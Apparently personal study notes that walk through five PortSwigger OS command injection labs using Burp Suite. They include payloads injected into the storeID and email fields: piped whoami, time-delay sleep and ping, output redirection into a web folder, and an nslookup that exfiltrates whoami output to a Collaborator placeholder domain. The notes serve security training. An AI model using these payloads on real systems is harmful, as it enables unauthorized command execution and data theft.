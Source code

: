 [OS Command Injection](https://www.hackingarticles.in/comprehensive-guide-on-os-command-injection/) (git)

## **1. OS command injection, simple case**
This lab contains an [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

1. Use Burp Suite to intercept and modify a request that checks the stock level.
2. Modify the `storeID` parameter, giving it the value `1|whoami`.
3. Observe that the response contains the name of the current user.

Analysis:
	![[Pasted image 20241006185925.png]]

| Purpose of command    | Linux         | Windows         |
| --------------------- | ------------- | --------------- |
| Name of current user  | `whoami`      | `whoami`        |
| Operating system      | `uname -a`    | `ver`           |
| Network configuration | `ifconfig`    | `ipconfig /all` |
| Network connections   | `netstat -an` | `netstat -an`   |
| Running processes     | `ps -ef`      | `tasklist`      |
![[Pasted image 20241006185012.png]]

## **2. Blind OS command injection with time delays**
This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to:
    `email=x ||ping + -c + 10 + 127.0.0.1||`

Analysis:

- after subbmiting the form we obsrve that every input field is accepted so we will find out which one it is susceptible for OS injection
	![[Pasted image 20241007180502.png]]

- for each field (name/email/subject) --> `|| sleep 10 #`  and URL encode it
	![[Pasted image 20241007180742.png]]
	![[Pasted image 20241007181105.png]]

## **3. Blind OS command injection with time delays**
This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at: `/var/www/images/`

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file. To solve the lab, execute the `whoami` command and retrieve the output.

1. Modify the `email` parameter, changing it to:
    `email= || whoami>/var/www/images/output.txt ||`
2. Now use Burp Suite to intercept and modify the request that loads an image of a product.
3. Modify the `filename` parameter, changing the value to the name of the file you specified for the output of the injected command:
    `filename=output.txt`
4. Observe that the response contains the output from the injected command.

Analysis:

- Confirm blind command injection
	email field  (submit feedback form page)

![[Pasted image 20241007200025.png]]

- Check where images are stored
	`GET/image?filename=x.jpg` --> /var/www/images
	![[Pasted image 20241007200116.png]]
	
-  Redirect output to file
	email= x `|| whoami > /var/www/images/output.txt #` (url encode it)
	![[Pasted image 20241007201334.png]]
	
- Check if file was created 
	`GET/image?filname=output.txt` 
	![[Pasted image 20241007201453.png]]

## **4. Blind OS command injection with out-of-band interaction

This lab contains a blind OS [command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

1. Modify the `email` parameter, changing it to:
    `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
 
Analysis:
![[Pasted image 20241008193453.png]]

## **5.  Blind OS command injection with out-of-band data exfiltration**
This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

1. Modify the `email` parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:
    ``email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||``
2. Go back to the Collaborator tab, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
3. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Collaborator tab. The full domain name that was looked up is shown in the Description tab for the interaction.

Analysis:
![[Pasted image 20241008194047.png]]
